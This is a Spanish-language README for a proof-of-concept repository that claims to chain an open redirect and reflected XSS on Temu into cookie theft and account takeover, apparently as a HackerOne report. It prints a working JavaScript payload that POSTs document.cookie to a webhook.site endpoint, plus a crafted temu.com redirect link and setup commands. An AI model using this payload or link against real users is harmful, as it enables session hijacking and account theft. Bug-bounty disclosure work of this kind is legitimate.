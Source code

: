 #📄 Contenido de README.md:

# 🛡️ temu-vuln-hunter-pro

> PoC profesional para explotar una vulnerabilidad crítica de Open Redirect + XSS reflejado en **Temu**, demostrando robo de cookies y escalada a toma de cuenta.

---

## 🚨 Descripción

Este proyecto demuestra una cadena de ataque real combinando:

#- ✅ Redirección abierta (`open redirect`)
#- ✅ XSS reflejado desde servidor externo
#- ✅ Robo de cookies vía JavaScript malicioso
#- ✅ Potencial toma de control de cuentas Temu

---

## 🔍 Estructura del Proyecto

temu-vuln-hunter-pro/
├── public/
│ └── poc.html # Página maliciosa que roba cookies
├── server.py # Servidor Flask que simula redirección
├── requirements.txt # Dependencias del proyecto
├── docs/
│ └── report.txt # Informe técnico completo para HackerOne
└── README.md # Este documento

---

## 💥 Payload usado

```html
<script>
fetch("https://webhook.site/32a0eb40-6f73-46d8-ae79-42f7535375e2", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ cookie: document.cookie })
});
</script>
Este payload se ejecuta en poc.html después de que Temu redirige al atacante.

#🧪 Pasos para Reproducir

Visita este enlace:

https://www.temu.com/universal-link?redirect=https://temu-vuln-hunter-pro.vercel.app/redirect?url=https://webhook.site/...
El sistema redirige automáticamente al dominio del atacante.

Se ejecuta código malicioso en poc.html y la cookie se envía a un webhook externo.

#⚙️ Requisitos para correr localmenter

# Clonar el repositorio

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro

# Instalar dependencias

pip install -r requirements.txt

# Ejecutar servidor Flask

python server.py

#📄 Reporte Técnico

Consulta el archivo docs/report.txt para ver el informe completo enviado a HackerOne, incluyendo impacto, PoC y solución sugerida.

#🧠 Autor Jonathan Jiménez
#💻 Alias HackerOne: jimenez7
#✉️  Email: jimenez7@wearehackerone.com

#⚠️ Disclaimer

Este proyecto es una prueba de concepto creada únicamente con fines educativos y de investigación. No está destinado a usarse con fines maliciosos. Todo reporte se ha hecho bajo los lineamientos éticos del programa HackerOne.

>>>>>>> 14b4965 (🚨 PoC crítica: Open Redirect + XSS + Account takeover en Temu)

